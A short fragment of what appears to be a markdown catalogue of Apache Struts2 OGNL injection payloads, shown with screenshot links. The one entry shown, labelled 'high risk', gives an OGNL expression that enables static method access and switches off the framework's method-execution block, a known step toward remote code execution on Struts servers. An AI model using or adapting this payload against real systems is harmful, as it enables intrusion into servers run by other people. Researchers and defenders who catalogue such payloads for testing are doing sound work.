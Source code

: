   ![](./imgs/chop-09-001.png)


### 10 = "java.lang.InheritableThreadLocal"
* payload
  ```js
  // high risk
  %{#_memberAccess.allowStaticMethodAccess=true,
    #context["xwork.MethodAccessor.denyMethodExecution"]=false,
    #a=new java.lang.InheritableThreadLocal()}
  ```
  ![](./imgs/chop-10-001.png)

